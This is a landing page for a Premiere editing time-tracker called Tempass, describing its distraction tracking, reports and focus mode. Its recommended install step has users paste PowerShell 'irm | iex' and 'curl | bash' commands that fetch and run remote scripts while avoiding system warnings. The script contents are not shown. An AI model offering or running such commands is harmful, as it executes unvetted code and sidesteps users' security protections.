

← Home
 Times your editing by itself
Times your editing by itself
Times your editing by itselfTempass
Open a project in Premiere — the clock starts. Distraction, focus %, hourly amount and a PDF report.
Installs from Hustler in one click
DownloadWindows · macOS
Other system: Windows · Mac (Apple Silicon) · Mac (Intel)
Install without warnings (recommended)
Windows: open PowerShell and paste
irm https://azizbek-dsgn.github.io/Meyor-Releases/install.ps1 | iexMac: open Terminal and paste
curl -fsSL https://azizbek-dsgn.github.io/Meyor-Releases/install.sh | bashDownloads, checks the official SHA-256, installs and opens — no browser or system warnings.
Hustler · free · Installation guide (with pictures) →

No Start button
Swible tells Tempass which project is open; another file is another project.
Distraction
Time spent in Telegram or the browser while editing.
Report and PDF
Work time, breaks, focus %, amount at your hourly rate.
Focus mode
25 minutes of work, 5 of rest — with a sound.
With Voxly
Say “Tempass, new project: …” in Uzbek.
Private
Everything stays on your computer.